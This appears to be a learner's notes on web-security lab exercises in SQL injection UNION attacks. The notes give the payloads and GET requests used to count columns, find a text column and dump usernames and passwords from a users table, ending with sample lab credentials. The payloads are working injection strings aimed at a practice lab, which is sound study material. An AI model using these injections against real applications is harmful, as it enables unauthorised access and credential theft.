 To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

First we check if we the number of columns:
`' UNION+SELECT+NULL,NULL--

Then we check which column contains string using->
`' UNION+SELECT+'A',NULL`

Then we print out the usernames and passwords from the user column by ->
`' UNION SELECT username, password FROM users--`

Now for further exploitation.........

## Retrieving multiple values within a single column

`' UNION SELECT username || '~' || password FROM users--`

`||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character

Output ->
`administrator~s3cure 
`wiener~peter 
`carlos~montoya`

Different databases use different syntax to perform string concatenation. For more details, see the [[SQL Injection Cheat Sheet]] .
		 
### Lab: SQL injection UNION attack, retrieving multiple values in a single column

![[Pasted image 20250512011633.png]]
send to repeater
![[Pasted image 20250512011717.png]]

`GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL-- HTTP/2
found out that it has 2 columns

lets find the ones with string in it 

![[Pasted image 20250512011846.png]]
`GET /filter?category=Accessories'+UNION+SELECT+NULL,'a'-- HTTP/2`
the 2nd column has string in it

now lets retrieve the data for password

![[Pasted image 20250512012144.png]]

`GET /filter?category=Accessories'+UNION+SELECT+null,username||'~'||password+FROM+users-- HTTP/2

**Proof of Work: **
![[Pasted image 20250512012259.png]]

